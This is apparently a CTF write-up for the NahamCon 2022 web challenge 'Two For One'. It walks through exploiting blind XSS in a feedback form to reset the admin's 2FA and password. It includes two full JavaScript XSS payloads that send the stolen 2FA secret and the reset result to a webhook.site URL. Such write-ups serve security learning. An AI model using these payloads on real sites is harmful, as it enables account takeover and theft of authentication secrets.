 # NahamCon CTF 2022 - Two For One
category: Web - Hard

## solution

at the first page there is a login and signup page

![Screenshot_2022-05-01 Fort Knox](https://user-images.githubusercontent.com/83473054/166118848-40535718-4ce9-400b-ab17-88d772683333.png)

in the signup page we must get the google auth token cuz we need it for login and other stuffs.
after login we could see that we are able to create secrets

![Screenshot_2022-05-01 Fort Knox(1)](https://user-images.githubusercontent.com/83473054/166119065-46e8ce6b-30f7-4fda-8718-813b23de13ef.png)

but the goal is not creating notes, we have to somehow read admin notes
so we will go to settings

in settings we could see Feedback part which after some fuzzing we found it's vulnerable to blind xss

![Screenshot_2022-05-01 Fort Knox(2)](https://user-images.githubusercontent.com/83473054/166119184-474ff52a-dde4-4a06-a734-c0aa0c17b862.png)

but there are two more part in settings

## reset password
![Screenshot_2022-05-01 Fort Knox(3)](https://user-images.githubusercontent.com/83473054/166119229-3f7a0284-1bba-400d-8943-519264db6876.png)
and
## reset 2FA
![Screenshot_2022-05-01 Fort Knox(4)](https://user-images.githubusercontent.com/83473054/166119240-162ad12a-7247-4df5-88a2-a59fe2be559f.png)


we found there is no csrf for reset password and reset 2FA, but reset password need to confirming 2FA. so first of all we have to somehow hijack the google authentication token.

we could reset google auth with POST request to this endpoint ```/reset2fa```

I wrote below payload to hijack the result of  ```/reset2fa``` and send it to our webhook

```js
<script>
    xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://challenge.nahamcon.com:31170/reset2fa', false);
    xhr.send();
    document.location='https://webhook.site/x4xx4-xxx-xxx-xxxx-xxxx?otp='+xhr.response;
</script>
```
## result 
![Screenshot_2022-05-01 Webhook site - Test, process and transform emails and HTTP requests](https://user-images.githubusercontent.com/83473054/166119457-2e486284-6bf5-49c3-91c4-304fa9f91cf4.png)

now we have secret token. we should convert it to QR code
![Screenshot_2022-05-01_05_13_51](https://user-images.githubusercontent.com/83473054/166119519-e1885483-67f6-4023-9052-cad3cf9c0dc1.png)
got it and scaned with my phone, now I have the google auth

the next step is reseting admin password.

I wrote below payload to reset admin password

```js
<script>
    xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://challenge.nahamcon.com:31170/reset_password', false);
    xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
    xhr.send(JSON.stringify({"otp":"068728","password":"a","password2":"a"}));
    document.location='https://webhook.site/3xxx4-xxxx-xxxxxx-xxxxx-xxxxx?res='+xhr.response;
</script>
```

and got ```{"success":true}``` in my webhook response.

now I can login with admin creds which it's username is ```admin``` and password is ```a``` (what we changed) and the google auth
logged in and we are able to read the flag from admin's secrets

![Screenshot_2022-05-01 Fort Knox(5)](https://user-images.githubusercontent.com/83473054/166119740-71f6c15a-9298-4b4a-bbad-bdb78ba0c352.png)


Really interesting challnege . thanks @congon4tor#2334

